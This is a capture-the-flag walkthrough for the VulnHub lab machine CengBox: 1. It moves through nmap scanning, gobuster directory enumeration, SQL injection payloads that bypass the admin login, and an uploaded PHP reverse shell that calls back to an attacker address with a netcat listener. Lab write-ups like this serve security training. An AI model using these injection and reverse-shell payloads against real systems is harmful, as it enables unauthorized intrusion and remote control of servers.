








# CengBox: 1

## Machine Information

- **Machine:** CengBox: 1
- **Platform:** VulnHub
- **Download:** https://www.vulnhub.com/entry/cengbox-1,475/

---

# Network Scanning

## Find Target IP

Discover the target machine on the local network.

```bash
nmap -sn 192.168.2.0/24
```


---

## Full Nmap Scan

Run a complete TCP scan with service detection, version detection, OS detection and NSE scripts.

```bash
nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.236
```



---

## Scan All TCP Ports (Optional)

```bash
nmap -v -p- 192.168.2.236
```

---

## Aggressive Scan

```bash
nmap -sC -sV -A 192.168.2.236
```

---

## HTTP Enumeration

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.236
```



---

# Web Enumeration

Visit the target:

```
http://192.168.2.236
```

---

## Directory Enumeration

```bash
gobuster dir \
-u http://192.168.2.236 \
-w /usr/share/wordlists/dirb/big.txt \
-x php,txt,html
```



---

## Enumerate the Admin Directory

```bash
gobuster dir \
-u http://192.168.2.236/masteradmin/ \
-w /usr/share/wordlists/dirb/big.txt \
-x php,txt,html
```



---

## Interesting Files

```
db.php
login.php
upload.php
```

Browse to:

```
http://192.168.2.236/masteradmin/db.php
http://192.168.2.236/masteradmin/login.php
http://192.168.2.236/masteradmin/upload.php
```


---

# Authentication Bypass

Test the login page using SQL payloads.

```text
' or '-'
' or ' '
' or '&'
' or '^'
' or '+'
```

Login succeeds.


---

# File Upload

Open:

```
http://192.168.2.236/masteradmin/upload.php
```



---

# Reverse Shell

Create a payload file.

```bash
nano shell.ceng
```

Insert the PHP reverse shell payload.

```php
<?php `/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.219/443 0>&1'`; ?>
```



Upload the file.



Start a listener.

```bash
nc -nlvp 443
```

Trigger the uploaded file.

```
http://192.168.2.236/uploads/shell.ceng
```

A reverse shell is established.

